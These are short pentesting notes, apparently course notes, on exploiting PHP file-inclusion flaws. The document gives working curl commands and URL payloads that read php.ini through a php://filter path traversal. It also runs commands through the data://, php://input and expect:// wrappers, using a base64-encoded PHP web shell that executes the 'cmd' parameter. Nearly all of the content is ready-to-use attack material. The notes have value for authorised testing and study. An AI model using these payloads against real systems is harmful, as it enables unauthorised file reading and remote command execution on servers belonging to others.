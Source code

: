 
allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```

### Data Wrapper


Reverse shell encoding
```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Reverse shell Payload (Can be done with curl as well)
```http
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```


### Input Wrapper

(Sending data via curl)(Must accept post request)
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)


### Expect Wrapper

Allows for commands to be ran through url streams

It's an external wrapper so we must check for it (Can be found in config)
```shell-session
extension=expect
```

Passing command through url stream
```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
